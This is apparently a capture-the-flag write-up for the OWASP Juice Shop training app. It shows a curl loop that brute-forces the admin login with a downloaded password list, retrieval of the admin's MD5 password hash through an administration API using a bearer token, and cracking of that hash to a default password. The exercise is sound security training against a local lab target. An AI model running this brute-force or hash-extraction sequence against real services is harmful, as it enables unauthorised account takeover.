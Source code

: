 The hint for this challenge gives us a few options to go after:

```
This one should be equally easy to a) brute force, b) crack the password hash or c) simply guess. Click for more hints.
```

First, I attempted the brute force approach. I downloaded a password list and got to work...

Note that finding the `login` API endpoint was useful ;)

```
http://localhost:3000/rest/user/login
```

Let's grab a password list:

```
$ wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/10_million_password_list_top_10000.txt
```

And start crackin'...

```
$ for password in $(cat 10_million_password_list_top_10000.txt); do echo $password && curl -s -X POST 'email=admin@juice-sh.op&password=$password' 'http://localhost:3000/rest/user/login' && echo; done
123456
Invalid email or password.
password
Invalid email or password.
12345678
Invalid email or password.
qwerty
Invalid email or password.
123456789
Invalid email or password.
...
```

Unfortunately, this didn't turn up much. We could either keep trying password
lists, or look at the password hash. But first, how to we access the password
hash...

I eventually found a way to access the administration API, which offers up a
user's password hash. We can inspect users by visiting the following URL:

```
http://localhost:3000/#/administration
```

Next, we can see it queries for user information by hitting the following
administration API endpoint:

```
http://localhost:3000/api/Users/<user-id>
```

When we hit this API with the admin's user ID we're able to get the hash:

```
$ curl -s 'http://localhost:3000/api/Users/1' -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBqdWljZS1zaC5vcCIsInBhc3N3b3JkIjoiMmU5ZmNmOGUzZGY0ZDQxNWM5NmJjZjI4OGQ1Y2E0YmEiLCJjcmVhdGVkQXQiOiIyMDE4LTAxLTAzIDIwOjE4OjAzLjg1NCArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE4LTAxLTAzIDIxOjUwOjE5LjM0NCArMDA6MDAifSwiaWF0IjoxNTE1MDE2OTEzLCJleHAiOjE1MTUwMzQ5MTN9.blyXOlipJkRv73tyR3xBqAE9IDCVImPVVkygMxG_yb_-kDwRNxw4QlR7l8IOLijm2noEOm9y591ds_vy7eTia28QZ8iiTsISPUH-3K_E1qibfntobMvSKeuC-bfFlQ6If7HT9os2ztncJXKw-7cYn4ACB4DkIYUG2ll35DdwXjQ' | python -mjson.tool
{
    "data": {
        "createdAt": "2018-01-03T22:08:12.171Z",
        "email": "admin@juice-sh.op",
        "id": 1,
        "password": "0192023a7bbd73250516f069df18b500",
        "updatedAt": "2018-01-03T22:08:12.171Z"
    },
    "status": "success"
}
```

Finally, a simple Google search for `0192023a7bbd73250516f069df18b500` returns
that this is the MD5 of `admin123`. Logging in with this password completes the
challenge!

